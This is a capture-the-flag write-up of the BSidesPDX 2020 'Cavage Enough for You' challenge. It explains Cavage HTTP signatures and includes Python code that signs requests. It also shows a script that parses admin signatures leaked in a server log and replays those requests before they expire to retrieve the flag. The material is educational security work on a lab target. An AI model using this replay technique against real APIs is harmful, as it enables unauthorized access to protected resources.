


# BSidesPDX CTF 2020 - `Cavage Enough for You`



> Tom has decided that he is tired of making a blog. Now he just wants to make Ascii art and have an api to access it. He has even let others use it.
> 
> Can you figure out what he messed up when making his api?
> 
> http://cavage-enough-for-you.bsidespdxctf.party:1337
> 
> Hint: https://tools.ietf.org/id/draft-cavage-http-signatures-01.html

The challenge provides a link to a website, and a link to an IEFT draft specification. Let's start by taking a look at the website:



This web challenge is one of my favorite types of web challenges: an API challenge (b/c there's no GUI and I can script it all ;) ). The index page tells us how to use the `/addkey` endpoint to, well, add a key.

I used OpenSSL to generate a keypair to use for this challenge:

```
$ openssl genrsa -out private.pem 2048
$ openssl rsa -in private.pem -outform PEM -pubout -out public.pem
```

Armed with a super secure keypair, I used the Python [`requests`](https://requests.readthedocs.io/en/master/user/quickstart/) library to make the POST request to `/addkey`:

```py
host = "http://cavage-enough-for-you.bsidespdxctf.party:1337"
keyId = "geech4"

with open("key/public.pem", "r") as f:
    pubkey = f.read()

def addkey():
    r = requests.post(host + "/addkey", json={
        "kid": keyId,
        "rsapub": pubkey
    })

    print(r.content.decode())
```

The output from that route tells us about some new endpoints we are able to use:

```

Key Loaded

Other Endpoints you have access to are the following

 /hello
/logs
/ascii
 
Dont forget to sign your (request-target), host, date.

```

It also mentions something about signing our requests. At this point, reading the [IETF draft](https://tools.ietf.org/id/draft-cavage-http-signatures-01.html) in the hint (or Googling `cavage`) becomes very helpful.

## HTTP Signatures

A Cavage HTTP Signature is a signed hash that represents the values of some/all of the headers in an HTTP request. It becomes especially powerful when used in combination with the `Digest` header (which adds a hash for the HTTP body to the headers), so you can effectively sign the contents of the request/response that is being made.

Here is how the signature is generated (this is the short version, for the full explanation, review the IEFT page and/or my [solution script](solve.py)):

1. Register your public key with the server (the mechanism for doing this is out of scope for the draft, but the key must have an associated `keyId` value)
2. Identify which headers need to be signed for the request. By default, only the `Date` header is signed.
3. Build the Signature String, which is a collection of the signed headers.
4. Compute the RSA-SHA256 of the Signature String.
5. Add the `Authorization: Signature ...` header to the request.

The Signature String has a few quirks that are worth mentioning. First, each of the headers is lowercase (e.g. `date`, rather than `Date`), and they are seperated with `\n` instead of `\r\n`. Also, there are a couple terms that some (including me) may not be familiar with:
* `request-line` is the first line of the HTTP request. It includes the method in all caps, the URI, and the HTTP version string.
  * Example: `GET /index.html HTTP/1.1`
* `request-target` is a simplified version of the `request-line`, and contains the *lowercase* method and the URI.
  * Example: `get /index.html`

When building the Signature String, keep in mind that the `request-target` must include `(request-target)` as the label for the header.

Here is an example Signature String:

```
(request-target): get /hello
host: cavage-enough-for-you.bsidespdxctf.party:1337
date: Sun, 25 Oct 2020 02:24:08 GMT
```

This is the structure of the `Authorization: Signature ...` header:

* `keyId`: The ID for the public key that the server will use to decrypt the hash
* `algorithm`: Which algorithm to use. The draft supports HMAC-SHA256 for symmetric encryption, or RSA-SHA256 for asymmetric encryption. This challenge uses RSA-SHA256, as evident by the `/addkey` endpoint discussed above.
* `headers`: A list of headers that are being signed by the requester. **The order of the headers matters**, and should be the order in which they appear in the request. However, there can be other, non-signed headers interspersed between the signed ones.
* `signature`: The output Base64'd RSA-SHA256 value for the Signature String.

Here is an example header:

```
Authorization: Signature keyId="geech4",algorithm="rsa-sha256",headers="(request-target) host date",signature="Qf0Qi2tkFWTkNif1CVdNchsmtlQ4bD1wEqpIwOl5+q7MQt/B9B2o2tsO54mqeRrgH2AODovrSwvkmpSZDfv/Lu+lghDbx4L6vzQDBpqXJ7+BVA04NvLcxpCbqf0VLAvparrEp6PL7BUz0PfPT3k9fTsqlpiwkfN1nCw+7Nr+vnHGzhujNfKAqcBVCZl51xyxOpGVJ2PETr68D0e4I2vZ5s8FHBdm756okiotEj3QmOAROKRPGYdhRKD5TCAwV0uZf+NKEhM/nBLWAowF/INSXtvyEaYWhv9qeB3OKejX56lIcclne9aN6MjHNOBzfR/s2nwkFDJjHWfPMTxW4lkU5g=="
```

This is how I made a signed request in my script, adding the proper headers and signature:

```py
def make_signed_req(method, uri, json=None, data=None):
    url = host + uri

    dt_now = datetime.now(tz=timezone.utc)
    date = dt_now.strftime("%a, %d %b %Y %H:%M:%S GMT")
    
    contents = f"""(request-target): {method.lower()} {uri}
host: cavage-enough-for-you.bsidespdxctf.party:1337
date: {date}"""

    digest = SHA256.new()
    digest.update(contents.encode())

    signer = pkcs1_15.new(privkey)
    signature = base64.b64encode(signer.sign(digest)).decode()

    authorization = "Signature "
    authorization += f'keyId="{keyId}",'
    authorization += 'algorithm="rsa-sha256",'
    authorization += 'headers="(request-target) host date",'
    authorization += f'signature="{signature}"'

    headers = {
        "Date": date,
        "Authorization": authorization
    }

    if method == "GET":
        f = requests.get
    elif method == "POST":
        f = requests.post
    else:
        print("bad method")
        return

    return f(url, headers=headers, json=json, data=data)
```

Now that we are able to properly sign requests, we can try out the 3 new endpoints.

Here is the response for `GET /hello`:

```
hello
```

Here is the response for `GET /ascii`:

```

          T
        .-"-.
   |  ___|
   | (.\/.)
   |  ,,,' 
   | '###
        '----'
```

I tried `POST` and some different parameters for these routes and they always returned the same contents, so I assume they are just static. `/logs`, on the other hand, is a completely different story.

When you make a `GET /logs` request, you'll get tens of thousands of log entries that look like this:

```
2020/10/25 02:47:40 GET         web300-server.bsidespdxctf:1337/flagp5          /flagp5         10.244.1.153:41660              199.632µs               map[Accept-Encoding:[gzip] Authorization:[Signature keyId="admin",algorithm="rsa-sha256",headers="(request-target) host date content-type expire",signature="d43iAqPO7ekrfDlb6Xb7tlRd8sPAgT8dsqv7qMfd+aNp95bQhun94+F9sVLsJ8IjKqKMVn1Jn61BQRA/sFfizW5K6Gwp/zPUNuaFWhLTdqWdTGT1ujs9aBO8ZCgkWqcuIh9Co/b2mzxyNElLtSsH57bH3RDcGT6CCRRLzSVna1WfYYk7TXoOtaJySwWsA48yfkR4iHozthVXDAiEeULTL81z/KL7EWsQnEVSgHefmUt+q5pqJ+7B6OkXl0cu8RvUI3xm2nmmVIkayqJcSPygwG8bYSJnDOY1kofZAIKUh4KuqZi0cZk2JmrMDZ0TvvAD1/AuvSZtXgTMSCt5TgI3Hw=="] Date:[2020-10-25 02:47:40.340885309 +0000 UTC m=+4205.085915806] Expire:[2020-10-25 02:48:40.340885309 +0000 UTC m=+4265.085915806] Host:[web300-server.bsidespdxctf:1337] User-Agent:[yolo]]
```

There are entries for `/flagp1`, `/flagp2`, etc., up to `/flagp5`. If you download the log a minute later, you'll see new entries in the log for the same URIs, for with different signatures. Let's break down this log entry:

* The log timestamp is `2020/10/25 02:47:40`
* The hostname is different than what we were given at the beginning: `web300-server.bsidespdxctf:1337`
* The IP address is an RFC1918 address, probably the local IP for the server
* We are given a listing of all the headers in the message:
  * `Accept-Encoding: gzip`
  * `Authorization: Signature keyId="admin",algorithm="rsa-sha256",headers="(request-target) host date content-type expire",signature="d43iAqPO7ekrfDlb6Xb7tlRd8sPAgT8dsqv7qMfd+aNp95bQhun94+F9sVLsJ8IjKqKMVn1Jn61BQRA/sFfizW5K6Gwp/zPUNuaFWhLTdqWdTGT1ujs9aBO8ZCgkWqcuIh9Co/b2mzxyNElLtSsH57bH3RDcGT6CCRRLzSVna1WfYYk7TXoOtaJySwWsA48yfkR4iHozthVXDAiEeULTL81z/KL7EWsQnEVSgHefmUt+q5pqJ+7B6OkXl0cu8RvUI3xm2nmmVIkayqJcSPygwG8bYSJnDOY1kofZAIKUh4KuqZi0cZk2JmrMDZ0TvvAD1/AuvSZtXgTMSCt5TgI3Hw=="`
  * `Date: 2020-10-25 02:47:40.340885309 +0000 UTC m=+4205.085915806`
  * `Expire: 2020-10-25 02:48:40.340885309 +0000 UTC m=+4265.085915806`
  * `Host: web300-server.bsidespdxctf:1337`
  * `User-Agent: yolo`

There are a couple interesting things in the `Authorization` header as well:

* The keyId used is `admin`
* There are more headers being signed than required:
  * `(request-target) host date content-type expire`

If we try and `GET /flagp1` with our key, you get the following output:

```
401 - Signature Expired
```

We are unfortunately not able to directly connect to those URIs and get the flag. Luckily, the logs contain all of the information we need to replay the admin request. Why/how can we do this?

* The `Expire` header is a minute after the `Date` header, so the contents of the request should be valid for one minute.
* Since the logs contain all of the headers, including the signature, we can make our own request using all of the headers, and the signature will be valid.

If we make a request for `GET /logs`, the most recent requests for each of the five flag pages should be valid, and we can parse out the necessary headers from the log to replay the request, and hopefully get 20% of the flag each time. One thing to worry about is the different hostname being used. The easiest way to get the `Host` header set properly is to configure an entry in `/etc/hosts` with `web300-server.bsidespdxctf` pointing to the server IP address (which can be obtained via `dig +short A cavage-enough-for-you.bsidespdxctf.party`).

Here's how I parsed the fields from the log and made the replay request:

```py
def use_log_to_replay(log_line):
    signature = log_line.split("Authorization:[")[1].split("]")[0]
    date = log_line.split("Date:[")[1].split("]")[0]
    expire = log_line.split("Expire:[")[1].split("]")[0]

    headers = {
        "Date": date,
        "Expire": expire,
        "Authorization": signature
    }

    uri = log_line.split(":1337")[1][:7]

    r = requests.get(f"http://web300-server.bsidespdxctf:1337{uri}", headers=headers)
    flag = r.content.decode()

    return flag
```

And now we can get the flag!

```
$ python3 solve.py
BSidesPDX{HTTP_CAVAG3_S1GnaTur3s_Ar3_R3a11y_c001}
```

Depending on luck, it make take a couple tries for my solution script to get the flag, as it expects the last 5 entries in the log to contain the 5 requests necessary for the flag. If you run the script while only some of them are present, or logs from another player, it won't work properly.

The full solution script is available [here](solve.py).
